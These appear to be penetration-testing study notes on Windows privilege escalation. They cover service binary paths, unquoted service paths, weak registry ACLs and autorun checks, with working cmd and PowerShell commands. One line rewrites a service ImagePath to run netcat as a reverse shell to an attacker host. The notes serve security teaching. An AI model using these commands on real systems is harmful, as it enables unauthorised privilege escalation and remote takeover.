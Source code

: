 #### Reverting the Binary Path
```cmd.exe
sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
```

#### Starting the Service Again
```cmd.exe
sc start WindscribeService
```

#### Verifying Service is Running
```cmd.exe
sc query WindscribeService
```


### Unquoted Service Paths

Service paths not incapsulated in quotation marks. e.g, `C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe`

#### Querying Service
```cmd.exe
sc qc SystemExplorerHelpService
```
`BINARY_PATH_NAME` will show the path to the service executable.

#### Searching for Unquoted Service Paths
```cmd.exe
wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```


### Permissive Registry ACLs

#### Checking for Weak Service ACLs in Registry
```cmd.exe
accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
```

#### Changing ImagePath with PowerShell
```PowerShell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```
We can abuse this using the PowerShell cmdlet `Set-ItemProperty` to change the` ImagePath` value. This example calls for netcat to connect to a listener on our attack host.

### Modifiable Registry Autorun Binary

#### Check Startup Programs
```PowerShell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```
If we have write permissions to the registry for a given binary or can overwrite a binary listed, we may be able to escalate privileges to another user the next time that the user logs in
